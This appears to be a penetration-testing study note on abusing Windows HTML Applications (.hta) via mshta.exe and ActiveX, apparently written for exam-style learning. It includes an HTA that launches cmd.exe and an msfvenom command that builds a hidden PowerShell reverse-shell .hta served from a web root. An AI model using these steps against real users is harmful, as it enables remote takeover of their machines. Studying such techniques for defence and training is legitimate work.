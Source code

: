 
# Client-Side-Attacks-HTML-Applications

## Leveraging HTML Applications
[HTML Applications](https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)?redirectedfrom=MSDN), with file extension .hta can be excuted on a Windows Client with the `mshta.exe`. This is to allow Internet Explore to arbitrarily execute applications within itself rather than downloading and manual executing a remote executable. An attacker can run that within the context of the user to avoid security restrictions. [ActiveX](https://en.wikipedia.org/wiki/ActiveX) is deprecated software that found on legacy systems was controversial and [historically insecure](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX) comparatively to other technologies, thus low hanging RCEs. Whereas [Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) still vulnerable just less insecure also actively researched due to modern widespread default Windows Browser. HTML application are HTML with [[Useful_Javascript]] or [[Useful-Visual-Basic]], HTML application are excuted outseide the browser and can be used to execute legacy and dangerous features blocked by the Browser.

## ActiveX

ActiveXObjects can provide access to underlying OS commands, using Windows Script Host functionality or WScript to access the Windows Script Host Shell object. This can  be

```html

<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
  
  self.close(); // Close addition window behind command prompt
    
</script>

	
</body>
</html>
```

Users that broswer to this page to access the file, IE pops: `Open, Save, Save As`, selecting `Open` will prompt a `Allow || Don't Allow` options to default enabled sandbox called `Protected Mode` *"A website wants to open web content using this program on your Computer"* stating that Name: Microsoft (R) HTML Application host, Publisher: Microsoft Windows. `Allow` will permit execution. Using MSFvenom we can turn the script above into an actual attack with reverse_shell.hta. 
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f hta-psh -o /var/www/html/reverse_shell.hta
```

This payload adds powershell commands to  `-NoProfile`, `WindowStyle hidden` and `-EncodedCommand`. The reason behind the `EncodedCommand` existing in Powershell is to not have to deal with escape characters, maybe you want automate a script in the background with `WindowStyle hidden`like run patching or AD policy updates and `-NoProfile` becuase maybe you just want to do some cli maths and don't want or need to authenicate yourself to do maths. All of these properties of powershell can be used, like many other for nefarious reasons.


## MSHTML.dll 

MSHTML.dll one of many [[Dynamic-Link-Library-Files]], which is specifically responsible as the Browser Engine, used regardless of IE being on the machine. From [LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89):

*"Contrary to popular belief, Internet Explorer is still installed in Windows 11 and will remain in Windows 10. The only change is that in Windows 11 (and Windows 10 sometime after June 15, 2022) IE cannot be easily launched by the end-user. That is, attempting to directly run **iexplore.exe** will run **Edge** instead."*

IE can still be run via scripts using_ **_IE COM automation_**_. For example (LaunchIE.vbs):_
```vbscript
Set oIE = CreateObject("InternetExplorer.Application")

oIE.Visible = True

oIE.Navigate "about:blank" 'put your URL of choice here"
```

*"Code that uses **IE COM automation** will open IE and work as usual. Note that, for Windows 11, it must be build **22000.348** or higher (IE COM automation was broken in Windows 11 prior to the Nov 2021 update). Using Windows 11 (or Windows 10 after IE is "disabled"), any link in an **HTA**, using code such as **href** or **window.open,** will open in **Internet Explorer**. Using a computer, where Internet Explorer has been _completely removed_ via **Control Panel** **Add/Remove Features**, any link in an **HTA**, using code such as **href** or **window.open,** will not work. The **href** will do nothing and the **window.open** will generate an error. Therefore, you should NOT remove IE from Windows 10 or Windows 11. Web pages that are opened via an **iframe** in an **HTA** will continue to work in all cases. Unfortunately, many external web sites don't allow their content to be loaded in an iframe."*

## References

[ActiveX Wiki](https://en.wikipedia.org/wiki/ActiveX) 
[LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89)
[CVE ActiveX](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX)
[CVE Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) 